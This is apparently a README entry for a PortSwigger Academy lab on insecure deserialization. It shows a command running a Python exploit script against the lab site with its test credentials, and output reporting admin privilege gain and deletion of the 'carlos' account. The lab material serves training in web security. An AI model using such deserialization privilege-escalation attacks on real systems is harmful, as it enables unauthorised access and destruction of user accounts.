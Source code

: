 ## Deserialization - PortSwigger Academy

#### Lab: Modifying serialized objects 
The lab uses a serialization-based session mechanism and is vulnerable to privilege escalation as a
result.
```sh
$ python modifying_serialized_objects.py --target https://acfd1fbb1f5b273c8014303000ba00ea.web-security-academy.net --user wiener --password peter
Logging as user: 'wiener': Success
Deserialization proccess: Success
Gaining Admin privilages: Success
Removing 'carlos' account: Success
```
